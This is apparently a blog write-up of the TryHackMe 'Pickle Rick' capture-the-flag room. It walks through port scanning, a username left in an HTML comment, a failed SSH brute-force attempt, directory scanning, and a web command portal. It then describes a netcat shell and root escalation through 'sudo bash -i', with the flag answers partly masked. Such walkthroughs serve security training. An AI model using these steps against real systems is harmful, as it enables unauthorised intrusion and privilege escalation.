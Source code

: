 ```yaml
---
categories:
- Tryhackme
- CTF
layout: post
image:
    path: hacking.png
media_subpath: /assets/posts/2025-03-29-Pickle-Rick-THM
tags:
- CTF
- Fundamentals
- Tryhackme
title: THM - Starters - Pickle Rick
---
```


## Introduction

**A Rick and Morty CTF. Help turn Rick back into a human!**

![](images/2025-03-29-11-13.png)


## Enumeration

````
Nmap scan report for thm.machine
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
````

As said in the instructions, I will dig deeper in to the web application of this server. 


![](images/2025-03-29-11-28.png)

Repeating the words "Burp" assuming this is a reference of the webtesting tool called Burpsuite.
There was also some gibberish in the /robots.txt file and a username stored in the sourcecode in a comment. This username could be used for bruteforcing the SSH with Hydra. There was no exploits in the Metasploit Framework for this version of Apache (2.4.41).

![](images/2025-03-29-11-40.png)

````
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
````

SSH-service did not have password authentication on, so I cannot proceed further with the bruteforcing.
````
[DATA] attacking ssh://10.x.x.x:22/
[ERROR] target ssh://10.x.x.x:22/ does not support password authentication (method reply 4).
````

Let's check if there is any other directories available with Dirb.

````
---- Scanning URL: http://10.10.242.190/ ----
==> DIRECTORY: 
+ http://10.10.242.190/assets/                                                                         
+ http://10.10.242.190/index.html                                                           
+ http://10.10.242.190/robots.txt                                                            
+ http://10.10.242.190/login.php
+ http://10.10.242.190/server-status
````

The login.php seems to be the right way to use that username.

![](images/2025-03-29-11-58.png)

Using the username "R1ckRul3s" and string found from /robots.txt, I was able to gain access to this portal.

![](images/2025-03-29-11-26.png)

It seems you can now access to the backend server and execute commands. "ls": 

![](images/2025-03-29-11-01.png)

This page supports PHP, now I want to gain a better shell. By using PHP-shell command I was able to grab a session with netcat.
![](images/2025-03-29-11-25.png)
````
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ cat Sup3rS3cretPickl3Ingred.txt
mr. *** *** <-- first question answer >
$ 
````
````
$ cat clue.txt	
Look around the file system for the other ingredient.
````
Under /home directory there was a user called "rick", which had the second ingredient.

````
$ cd rick
$ ls
second ingredients
$ cat "second ingredients"
1 j**** **** <-- Second answer >
````

"sudo -l" result was interesting. All commands can be run with root privileges. 

````
User www-data may run the following commands on ip-10-x-x-x:
    (ALL) NOPASSWD: ALL
````
````
sudo bash -i
bash: cannot set terminal process group (1023): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-x-x-x:/home/rick# 
````
Now let's go to /root to grab the last flag.

````
root@ip-10-x-x-x:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fle*** *****
````


